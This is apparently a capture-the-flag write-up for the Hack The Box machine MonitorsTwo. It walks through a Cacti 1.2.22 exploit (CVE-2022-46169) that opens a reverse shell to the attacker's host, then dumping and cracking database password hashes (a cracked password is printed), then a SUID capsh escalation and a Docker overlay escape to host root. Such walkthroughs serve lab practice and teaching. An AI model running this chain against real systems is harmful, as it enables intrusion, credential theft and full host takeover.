 # [MonitorsTwo](https://app.hackthebox.com/machines/monitorstwo)

```bash
nmap -p- --min-rate 10000 10.10.11.211 -Pn 
```

![alt text](img/image.png)


After detection of open ports, let's do greater scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.211 -Pn
```

![alt text](img/image-1.png)


Let's look at web application.

![alt text](img/image-2.png)


It is `Cacti` application via version `1.2.22`, let's search publicly known exploit to use against this machine.

That's [CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

Let's use this exploit.
```bash
python3 CVE-2022-46169.py -u http://10.10.11.211/ --LHOST=10.10.14.11 --LPORT=1337
```

![alt text](img/image-3.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-4.png)


Let's make interactive shell.
```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm  
export SHELL=bash  
```

![alt text](img/image-5.png)


I look at `include/config.php` file which contains database credentials.


![alt text](img/image-6.png)


Let's use this credentials to login into `Mysql`.

```bash
mysql -h db -u root -p
```

I used database called `cacti` and table `user_auth` which contains user's credentials.

![alt text](img/image-7.png)


Let's crack these hashes via `hashcat` tool.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-8.png)


marcus: funkymonkey


Let's check this credentials against our machine via `ssh`


user.txt

![alt text](img/image-9.png)


Let's enumerate mounted file systems.
```bash
df -h
```

![alt text](img/image-10.png)

Two of them are used for `overlay`.

Let's look at one of them.

```bash
ls -al /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
```

![alt text](img/image-11.png)


While I create some file on container as below.

![alt text](img/image-12.png)


I can see this file on `Host` machine as `overlay` mounted system.

![alt text](img/image-13.png)


Then, I looked at `container` machine to search `SUID` files.
```bash
find / -perm -4000 -ls 2>/dev/null
```

![alt text](img/image-14.png)


Let's use `capsh` binary as [Gtfobins](https://gtfobins.github.io/gtfobins/capsh/#suid) said.

```bash
capsh --gid=0 --uid=0 --
```

![alt text](img/image-15.png)


As we are root on `container`, we can do privilege escalation on `Host` machine due to `MKNOD` capability.

I create copied `/bin/bash` file on container and use this via `-p` flag on `Host` machine.

First, let's create `/bin/bash` file and give `SUID` privilege.
```bash
cp /bin/bash /tmp/copied_bash
chmod 4777 /tmp/copied_bash
```

![alt text](img/image-16.png)


Then use this copied `/bin/bash` on `Host` machine via `-p` flag.
```bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/copied_bash -p
```


root.txt

![alt text](img/image-17.png)